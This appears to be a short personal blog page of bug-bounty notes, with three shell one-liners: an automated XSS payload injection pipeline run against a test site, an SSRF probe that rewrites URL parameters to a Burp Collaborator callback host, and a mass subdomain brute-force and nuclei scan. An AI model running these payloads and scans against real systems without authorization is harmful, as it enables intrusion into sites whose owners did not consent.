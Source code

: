 ```yaml
---
title: "HelloWorld"
date: 2023-07-23T16:51:27-07:00
draft: false
---
```


### Let's see how this works.

### Here I would like to store a collection of useful notes.

```
~%$: echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

### How about an ssrf one:
```
~%$: findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```

### ~~Scratch this.~~:
```
~%$: xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1
```